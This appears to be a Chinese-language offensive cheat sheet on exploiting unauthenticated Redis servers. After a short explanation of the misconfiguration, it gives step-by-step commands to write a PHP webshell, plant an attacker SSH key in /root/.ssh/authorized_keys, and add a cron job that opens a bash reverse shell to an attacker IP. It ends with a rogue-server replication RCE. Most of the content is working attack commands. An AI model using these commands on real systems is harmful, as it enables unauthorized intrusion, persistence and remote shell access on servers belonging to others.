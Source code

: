 # 未授权访问
Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。
漏洞的产生条件有以下两点：
（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；
（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。
[9548962.html](https://www.cnblogs.com/bmjoker/p/9548962.html)

1.写webshell
```
#设置shell写入的路径
config set dir /var/www/html
#设置写入文件
config set dbfilename payload.php
#设置写入内容
set webshell "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
```
2.写入攻击者公钥

# 本地生成密钥对
```
ssh-keygen -t rsa


# 将公钥写入临时文件
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt

# 写入目标服务器
cat key.txt | redis-cli -h 目标IP -x set ssh_key
redis-cli -h 目标IP
> CONFIG SET dir /root/.ssh
> CONFIG SET dbfilename authorized_keys
> SAVE
```
3.计划任务反弹shell
```
# 连接Redis
redis-cli -h 192.168.1.100

# 设置目录
config set dir /var/spool/cron

# 设置文件名（Root用户）
config set dbfilename root

# 写入计划任务（反向Shell）
set xx "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.1.50/4444 0>&1\n\n"

# 保存
save

```
4.主从复制 RCE（Redis 4.x/5.x）
```
# 在攻击机上启动恶意Redis服务器
python3 redis-rogue-server.py --rhost 192.168.1.100 --lhost 192.168.1.50

# 或者使用其他工具
./redis-rogue-server -r 192.168.1.100 -L 192.168.1.50 -f module.so

```